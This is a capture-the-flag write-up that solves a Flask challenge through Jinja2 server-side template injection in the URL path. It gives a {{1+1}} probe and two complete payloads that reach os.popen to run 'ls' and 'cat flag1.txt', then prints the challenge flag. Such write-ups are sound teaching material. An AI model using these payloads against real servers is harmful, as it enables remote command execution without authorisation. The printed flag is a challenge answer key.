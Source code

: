 # Just Cat The Flask 1

## Description
https://bluehens-cat-the-flask.chals.io/greeting/hi

Try this link if above is down again.

https://bluehens-cat-the-flask-patched.chals.io/greeting/hi

-ProfNinja and DaveTheDaemonSlayer

## Solution
When you open the link for this challenge, you got something similar to this.

![User interface of this challenge](./1.png)

This page is vulnerable to Jinja2 Server Side Template Injection (SSTI) in it's URL.
To test if the URL parameters is vulnerable to SSTI, we can pass `{{1+1}}` to the URL and the result should be 2 instead of `{{1+1}}`.

![SSTI through URL](./2.png)

Using this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) we can craft RCE to run `ls` command in the server. 
The payload that I used for the RCE was.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
```

![The list of file in the server](./3.png)

From the result, we know that our flag is in `flag1.txt`.
We just need to modify the previous payload to execute `cat flag1.txt`

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag1.txt").read()}}{%endif%}{% endfor %}
```

![Flag](./flag.png)

## Flag
`UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}`